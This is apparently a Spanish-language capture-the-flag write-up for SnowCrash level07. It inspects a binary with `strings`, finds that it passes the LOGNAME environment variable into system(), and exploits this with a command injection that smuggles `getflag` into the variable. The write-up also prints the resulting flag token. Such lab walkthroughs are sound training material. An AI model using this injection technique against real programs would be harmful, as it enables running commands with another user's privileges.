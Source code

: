 1. **Busqueda de archivos**

    Ejecutando el programa solo muestra la salida `level07`, nada interesante por aqui, pero si miramos con `strings` encontramos algunas cosas
    ```bash
    strings level07
    [...]
    getenv
    LOGNAME
    /bin/echo %s
    system
    [...]
    ```
    1. Uso de variables de entorno y system()
        - Aparece getenv, LOGNAME y /bin/echo %s, lo que sugiere que el binario lee la variable de entorno LOGNAME y la pasa a un comando echo usando system().
    2. Funciones peligrosas
        - Se usan system, asprintf, getenv, lo que suele ser un vector de vulnerabilidad si el usuario controla el contenido de la variable de entorno.
    3. Ruta del código fuente
        - Aparece /home/user/level07/level07.c, lo que indica que el binario no está ofuscado y probablemente puedas encontrar el código fuente o deducir su lógica.
    4. Cadena sospechosa
        - zE&9qU podría ser una contraseña, flag o dato relevante
    
    El binario probablemente ejecute algo como:
    ```bash
    system("/bin/echo $LOGNAME");
    ``` 

2. **Explotacion**

    Si podemos modificar la variable de entorno podriamos inyectar comandos
    ```bash
    level07@SnowCrash:~$ LOGNAME='hola; getflag' ./level07
    hola
    Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
    ```
    
